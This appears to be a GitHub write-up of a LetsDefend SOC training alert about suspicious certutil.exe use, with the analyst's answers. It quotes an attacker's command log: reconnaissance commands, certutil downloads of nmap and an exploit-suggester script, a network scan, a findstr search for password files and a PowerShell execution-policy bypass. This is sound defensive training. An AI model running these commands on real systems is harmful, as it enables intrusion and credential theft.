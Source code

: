 # discreption
- EventID :`113`
- Event Time :`Mar, 01, 2022, 11:06 AM`
- Rule :`SOC163 - Suspicious Certutil.exe Usage`
- Level :Security Analyst
- Hostname :`EricProd`
- IP Address :`172.16.17.22`
- Related Binary :`certutil.exe`
- Binary Path :`C:/Windows/System32/certutil.exe`
- Command Line : `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip`
- Alert Trigger Reason : `-f parameter with certutil.exe`
- EDR Action : Allowed

```
A LoLBin is any binary supplied by the operating system that is normally used for legitimate purposes but can also be abused by malicious actors. Several default system binaries have unexpected side effects, which may allow attackers to hide their activities post-exploitation.
(definition: talosintelligence.com)
```
```
Determine which binary is supplied by the operating system but is also home to suspicious activities. To do this, you can resort to the alert details on the Monitoring page or Endpoint Security.
```
Certutil.exe: Attackers encode a file using base64 and then use CertUtil to download it from a remote URL to the victim’s device
`certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py`

- Certutil.exe: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil

```ps1
#01.03.2021 10:11
whoami
#01.03.2021 10:13
net user
#01.03.2021 10:16
net user
#01.03.2021 10:17
ipconfig
#01.03.2021 10:18
ipconfig /all
#01.03.2021 10:19
net Localgroup
#01.03.2021 10:22
net start
#01.03.2021 10:24
netstat
#301.03.2021 10:25
tasklist
#01.03.2021 10:27
systeminfo
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
#01.03.2021 11:08
nmap -sV 192.168.0.0/24 -p 80
#01.03.2021 11:27
python3 check.py
#01.03.2021 18:54
arp -a
#01.03.2021 19:32
findstr /si pass *.txt | *.xml| *.ini
#01.03.2021 21:36
C:/powershell.exe -nop -exec bypass
```
- Q1
```
Previously, you found the related binary. Now, we’d like you to determine whether it was used for malicious purposes. You can use the link below to determine how legal binary can be used to perform malicious activities.

LOLBAS Project
There are some characteristics common to command lines:

They often have a file-path or other artifact as one of the arguments, that changes based on the user environment or machine, such as usernames or system GUIDs in file paths.
The order of arguments in the command change, or a single argument has a slightly different value.
They can have randomly generated strings in embedded URLs or file paths.
They can be obfuscated on purpose by attackers (variable assignment, invocation of string expressions created on the fly, etc).
(list source: sophos.com)


Is the current activity suspicious?
```
- `yes`

![image](https://github.com/seiffawal/Let-s-defend_events/assets/83987697/50317ca9-8c76-45a6-aaee-b054b8f2f867)

`https://lolbas-project.github.io/`

- Determine Suspicious Activity: Yes, suspicious
Question: What Is Suspicious Activity?
```ps
#01.03.2021 11:06
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
#01.03.2021 11:07
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py
```
`Download` 
Question: Who Performed the Activity?
after checking cmd log it know it's user
`User`
